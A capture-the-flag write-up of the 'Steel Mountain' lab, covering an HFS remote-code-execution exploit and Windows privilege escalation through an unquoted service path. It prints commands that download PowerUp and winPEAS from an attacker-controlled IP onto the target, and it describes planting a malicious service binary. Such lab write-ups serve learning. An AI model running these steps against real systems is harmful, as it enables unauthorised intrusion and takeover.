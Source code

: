 ```yaml
---
title: 'Steel Mountain'
tags:
- writeups
---
```


## Recon
![[write-ups/images/Pasted image 20220821035650.png]]
- on `80` we're greeted with this => we can answer *"who's the employee of the month"*
	- ![[write-ups/images/Pasted image 20220821035600.png]]
- on `8080` we have a file server, but with nothing in it. Couldn't get anywhere by trying to login
	- ![[write-ups/images/Pasted image 20220821035833.png]]
- tried doing some enumeraation on smb as well with `enum4linux` but nothing came out
- however, looking back at the `httpd` version, which seems quite outdated, running on `8080` reveals [this exploit](https://www.exploit-db.com/exploits/39161)
 
## Init Access
So we know we have a vulnerable endpoint to RCE due to a poor regex in the file `ParserLib.pas`. It achieves this by leveraging the HFS scripting commands by using `'%00'` to bypass the filtering. We could use the metasploit module `exploit/windows/http/rejetto_hfs_exec`, but since we already got the python script let's just try that. 

It's specifying that we need to serve [nc.exe](https://github.com/int0x33/nc.exe/), so I spun up a python http server: `python -m http.server 80`, change the ip & port inside the script and just ran it:

![[write-ups/images/Pasted image 20220821041339.png]]

## Privesc w Unquoted Service Path
They insist on enumerating the machine using [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) so I did that, but also ran [winPeas](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASbat/winPEAS.bat).
```bash
powershell -Command Invoke-WebRequest -Uri http://10.18.12.227/PowerUp.ps1 -OutFile pup.ps1
powershell -Command Invoke-WebRequest -Uri http://10.18.12.227/winPeas.bat -OutFile wpes.bat
```

```batch
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Both detect the usage of [[Unqoted Service Paths]] which can lead to privilege escalation by replacing the legitimate service with our own. Also note the `CanRestart: true` option. This will trigger our infected program & will get us a system shell

![[write-ups/images/Pasted image 20220821044432.png]]

First we gotta generate the malicious service & upload to target *([Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2))*

![[write-ups/images/Pasted image 20220821044954.png]]

 From here we need to determine where do we put this. We know that our service is in `C:\Program Files (x86)\IObit\Advanced SystemCare\` => anywhere before it should work. Since in `Program Files (x86)` we don't have write access, the most convenient option is in `IObit`. Then we setup our listener & restart the service
 
![[write-ups/images/Pasted image 20220821051303.png]]

![[write-ups/images/Pasted image 20220821051411.png]]


## Refs
- [Windows Privilege Escalation - Unquoted Service Path](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

## See Also
- [[sheets/Unqoted Service Paths]]
- [[write-ups/THM]]